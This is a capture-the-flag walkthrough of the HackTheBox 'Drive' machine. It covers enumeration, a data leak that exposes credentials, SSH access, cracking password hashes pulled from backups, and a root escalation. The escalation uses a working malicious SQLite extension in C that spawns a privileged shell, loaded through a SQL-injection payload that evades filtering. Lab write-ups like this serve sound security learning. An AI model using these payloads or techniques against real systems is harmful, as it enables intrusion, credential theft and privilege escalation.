 #+TITLE: DRIVER CTF WRITUP
#+AUTHOR: MattiaCossu ZproAle

* Enumeretion
** nmap -A -Sv -Sc drive.htb
#+BEGIN_SRC bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 17:30 EDT
Nmap scan report for driver.htb (10.10.11.235)
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 27:5a:9f:db:91:c3:16:e5:7d:a6:0d:6d:cb:6b:bd:4a (RSA)
|   256 9d:07:6b:c8:47:28:0d:f2:9f:81:f2:b8:c3:a6:78:53 (ECDSA)
|_  256 1d:30:34:9f:79:73:69:bd:f6:67:f3:34:3c:1f:f9:4e (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://drive.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
3000/tcp filtered ppp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.07 seconds
#+END_SRC
** nmap -p- drive.htb
#+BEGIN_SRC bash
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-18 17:33 EDT
Nmap scan report for drive.htb (10.10.11.235)
Host is up (0.035s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
3000/tcp filtered ppp

Nmap done: 1 IP address (1 host up) scanned in 35.01 seconds
#+END_SRC
With these two scans we note that we have 3 ports of which one is filtered, the ~3000~, the ~80~ for a _HTTP server_ and ~22~ for a SSH
** Web Enumerations
The app is probably for managing documents in the cloud.

Without registering in the application, since it allows it we notice in the _/home_  private note
[[./pics/interesting_file.png]]
We want to try to _see_ if it is possible to read the content of that note and maybe *others* since the backend lists them via url like this ~drive.htb/100/getFileDetail/~ (we can see this url once we create an account and get session tokens)

With _burp's intruder_ we go looking for all possible files in the backend and find great results!
[[./pics/attack_burp.png]]
now we just have to figure out how we can read those files since the requests respond like this : (
#+BEGIN_SRC json
{"status": "unauthorized"}
#+END_SRC

with _gobuster_ then let's look at all the possible subdomains starting with ~drive.htb/100/~ to see if there is anything interesting.
#+BEGIN_SRC bash 
  gobuster dir -u http://drive.htb/100 --cookies 'Cookie: csrftoken=AlankMlxInGpRCoOAMEYbWjJ7w7WAgcT; sessionid=4ue8dm8pmi5innjghx5i08tuvdi7j49e' -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     http://drive.htb/100
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] Cookies:                 Cookie: csrftoken=AlankMlxInGpRCoOAMEYbWjJ7w7WAgcT; sessionid=4ue8dm8pmi5innjghx5i08tuvdi7j49e
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /updates              (Status: 302) [Size: 0] [--> /login/]
  /update               (Status: 302) [Size: 0] [--> /login/]
  /blocks               (Status: 302) [Size: 0] [--> /login/]
  /block                (Status: 301) [Size: 0] [--> /100/block/]
  /updated              (Status: 302) [Size: 0] [--> /login/]
  /delete               (Status: 302) [Size: 0] [--> /login/]
  Progress: 6900 / 207644 (3.32%)^C
  [!] Keyboard interrupt detected, terminating.
  Progress: 6914 / 207644 (3.33%)
  ===============================================================
  Finished
  ===============================================================                                                  
#+END_SRC

We notice the presence of a route ~/block~ that responds with _302_ code, interesting let's go right away to test it with some hidden files!!!

Nice we have a ~Data Leak~!!
[[./pics/dataleak.png]]
We have just obtained _credentials_, we immediately deprive the ~foothold~!!
* PE
With powncat (_c2_) we start a connection to the user ~Martin~
#+BEGIN_SRC bash
  python3 -m pwncat 
    'class': algorithms.Blowfish,
  [10:19:27] Welcome to pwncat 🐈!                                                                                                                         __main__.py:164
  (local) pwncat$ connect ssh://martin@drive.htb
  Password: *****************
  [10:20:10] drive.htb:22: registered new host w/ db 
#+END_SRC
we are in!!
#+BEGIN_SRC bash
  (remote) martin@drive:/home/martin$ whoami
  martin
#+END_SRC
Enumerating the file system we notice an interesting folder within _/var/www_, the ~backups~ folder.
Unfortunately, the files are password protected so we have to find a way to access them.

Remembering the presence of a filtered port (3000) we note that inside the machine where we landed we can contact the service.
#+BEGIN_SRC bash
  curl 127.0.0.1:3000
  <!DOCTYPE html>
  <html lang="en-US" class="theme-">
  <head>
	  <meta charset="utf-8">
	  <meta name="viewport" content="width=device-width, initial-scale=1">
	  <title> Gitea: Git with a cup of tea</title>
#+END_SRC

We have notice that, into the server are present a ~Gitea~ service.
Let's try to forword the port fopr access to web server into kali.

#+BEGIN_SRC bash
  ssh -L 8000:127.0.0.1:3000 martin@drive.htb
#+END_SRC

Visiting now our ~localhost~ on the _8000_ within kali we can visit the web server!!!
[[./pics/gitea.png]]

Returning to the backups folder and analyzing the non-7zip backup we notice the presence of a list of users with their passwords
#+BEGIN_SRC bash
  sqlite> .tables
  accounts_customuser                   auth_permission                     
  accounts_customuser_groups            django_admin_log                    
  accounts_customuser_user_permissions  django_content_type                 
  accounts_g                            django_migrations                   
  accounts_g_users                      django_session                      
  auth_group                            myApp_file                          
  auth_group_permissions                myApp_file_groups                   
  sqlite> SELECT * FROM accounts_customuser
     ...> ;
  21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a891323******|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
  22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7******|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
  23|sha1$kyvDtANaFByRUMNSXhjvMc$9e77fb56c31e7ff032f8deb1f0b5e8f42e******|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
  24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d******|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
  30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c31133******|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372

#+END_SRC

Let's try logging into gitea with the user martinCruz and his old password found earlier.

We are inside and have access to the repository of the application
[[./pics/repo.png]]
We can also see the script that is in charge of making the backups maybe we find the password that zippers them.
[[./pics/password.png]]
Now we can unzip the archive with this password.

#+BEGIN_SRC bash
  7z e 1_Nov_db_backup.sqlite3.7z -o/tmp

  7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
  p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7302P 16-Core Processor                (830F10),ASM,AES-NI)

  Scanning the drive for archives:
  1 file, 12226 bytes (12 KiB)

  Extracting archive: 1_Nov_db_backup.sqlite3.7z
  --
  Path = 1_Nov_db_backup.sqlite3.7z
  Type = 7z
  Physical Size = 12226
  Headers Size = 146
  Method = LZMA2:22 7zAES
  Solid = -
  Blocks = 1

    
  Enter password (will not be echoed):

  Would you like to replace the existing file:
    Path:     ./db.sqlite3
    Size:     3760128 bytes (3672 KiB)
    Modified: 2022-12-26 05:51:24
  with the file from archive:
    Path:     db.sqlite3
    Size:     3760128 bytes (3672 KiB)
    Modified: 2023-09-01 18:25:59
  ? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? y

#+END_SRC

All archives contain different hashes maybe this one is lucky.
#+BEGIN_SRC bash
  sqlite3 db.sqlite3 
  SQLite version 3.31.1 2020-01-27 19:55:54
  Enter ".help" for usage hints.
  sqlite> SELECT * FROM accounts_customuser;
  21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a8913230*****|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
  22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e72*****|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
  23|sha1$Ri2bP6RVoZD5XYGzeYWr7c$4053cb928103b6a9798b2521c4100db8896*****|2022-12-24 13:17:45|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
  24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6*****|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
  30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337*****|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
  sqlite>
#+END_SRC

Now we can try to crak the interesting hash with hascat
#+BEGIN_SRC bash
  hashcat -m 124 hash.tom.3 /usr/share/wordlists/rockyou.txt
#+END_SRC

Nice we have obtain the new password for ~tom~

Inside tom's home directory we find a script that appears to simulate the site from the command line
With simple reverse practices we will find the pwds within the main of the executable

Reading the executable shows an interesting function that appears to run a sql querry

We will opt for a simple approach by loading a malicious extension into sql with a payload that ~bypasses sanitization~

_EXTENCION_ s.so
#+BEGIN_SRC c
  #include <stdio.h>
  __attribute__ ((__constructor__))
  void attack(void){
    system("/bin/bash -p");
  }
#+END_SRC

_PAYLOAD_
#+BEGIN_SRC c
  "+load_extension(char(46,47,115));--
#+END_SRC

~"~ => Payload start
~+~ => Concat
~char~ => bypass lang

Now we are root but the last step is load the user path couse whgen we obtain root sheel the systenm dosent't load the group id
#+BEGIN_SRC bash
  export PATH=/bin
#+END_SRC
